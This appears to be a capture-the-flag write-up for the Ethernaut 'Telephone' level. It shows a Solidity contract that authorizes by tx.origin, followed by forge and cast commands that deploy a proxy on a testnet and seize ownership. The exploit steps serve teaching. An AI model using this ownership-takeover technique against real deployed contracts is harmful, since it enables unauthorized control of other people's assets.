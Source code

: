 ```yaml
---
title: "Telephone"
tags: ["Proxy"]
reference: https://ethernaut.openzeppelin.com/level/0x2C2307bb8824a0AbBf2CC7D76d8e63374D2f8446
---
```


# Description

Claim ownership of the contract below to complete this level.

- Things that might help


```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

# Solution

1. What is `tx.origin`?

In Solidity, tx.origin is a global variable that refers to the original external account (EOA) that initiated the transaction — even if the transaction passes through multiple smart contracts.

We can make `tx.origin != msg.sender` by calling `changeOwner` via a proxy contract?

2. Deploy [TelphoneProxy](lv_4/src/Proxy.sol) smart contract

```
forge create src/Proxy.sol:TelephoneProxy --rpc-url=$BASE_SEPOLIA_RPC --account deployer --broadcast
[⠃] Compiling...
No files changed, compilation skipped
Enter keystore password:
Deployer: 0xB1473Ba227C4645501E0e05f4839b00ED8320d33
Deployed to: 0x650cd15495fa04d0450eA1Dd2B9f164766f226Dd
Transaction hash: 0x5c23660ca92a840f8525ea631768475afbb5e988cde58e49b93ce96d3d1ad261
```

3. Get player and victim contract addresses

```
=> Instance address0x59fC2E3Ad3c4A6D4a4169815FDDe77CE7d5DAFe5
player
'0xB1473Ba227C4645501E0e05f4839b00ED8320d33'
```

4. Call `changeOwner()`

```
cast send 0x650cd15495fa04d0450eA1Dd2B9f164766f226Dd "changeOwner(address,address)" 0x59fC2E3Ad3c4A6D4a4169815FDDe77CE7d5DAFe5 0xB1473Ba227C4645501E0e05f4839b00ED8320d33 --rpc-url $BASE_SEPOLIA_RPC --private-key 
```

5. check the updated owner

```
await contract.owner()
'0xB1473Ba227C4645501E0e05f4839b00ED8320d33'
```
